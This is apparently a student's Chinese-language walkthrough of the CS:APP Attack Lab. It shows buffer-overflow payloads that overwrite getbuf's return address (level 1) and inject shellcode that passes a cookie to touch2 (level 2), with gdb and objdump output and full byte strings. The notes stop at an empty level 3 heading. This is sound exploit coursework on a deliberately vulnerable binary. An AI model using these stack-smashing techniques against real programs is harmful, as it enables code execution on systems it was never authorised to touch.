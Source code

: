 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下  
输入:  00 00 ... 00 c0 17 40  
位数:   0  1 ... 40 41 42 43  

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳   
利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq $0x59b997fa,%rdi
retq
```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3                                 
00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00 00 00     
00 00 00 00 00 00 00 00 00 00    
78 dc 61 55      
```


### ***CI level3***

